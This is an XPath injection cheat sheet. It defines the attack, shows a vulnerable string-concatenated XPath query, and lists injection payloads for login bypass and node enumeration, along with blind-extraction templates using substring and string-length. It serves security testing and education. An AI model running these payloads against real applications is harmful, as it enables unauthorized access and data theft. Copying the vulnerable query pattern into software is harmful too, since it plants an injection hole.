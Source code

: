 # XPATH injection
XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Exploitation
Similar to SQL : "string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"
```
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
```

## Blind Exploitation
```
1. Size of a string
and string-length(account)=SIZE_INT

2. Extract a character
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```


## Thanks to
* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [XPATH Blind Explorer](http://code.google.com/p/xpath-blind-explorer/)
